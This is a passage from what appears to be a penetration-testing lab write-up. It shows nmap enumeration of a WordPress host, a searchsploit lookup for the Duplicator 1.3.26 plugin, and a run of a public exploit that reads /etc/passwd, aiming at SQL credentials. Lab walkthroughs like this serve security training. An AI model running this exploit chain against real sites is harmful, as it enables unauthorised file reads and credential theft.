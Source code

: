 ```
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3442 Sep 21  2018 automysqlbackup
```

### Wordpress LFI -> SQL Creds

I ran an `nmap` script against Wordpress and it found this:

```
$ nmap --script http-wordpress-enum -p 80 192.168.243.167
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:35 +08
Nmap scan report for 192.168.243.167
Host is up (0.22s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|     akismet
|_    duplicator 1.3.26
```

For some reason `wpscan` doesn't pick up on these. Anyways, this version of Duplicator is vulnerable to an LFI.&#x20;

```
$ searchsploit duplicator 1.3.26
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read                                                                                  | php/webapps/50420.py
Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read (Metasploit)                                                                     | php/webapps/49288.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

It works!

```
$ python3 50420.py http://192.168.243.167 /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
```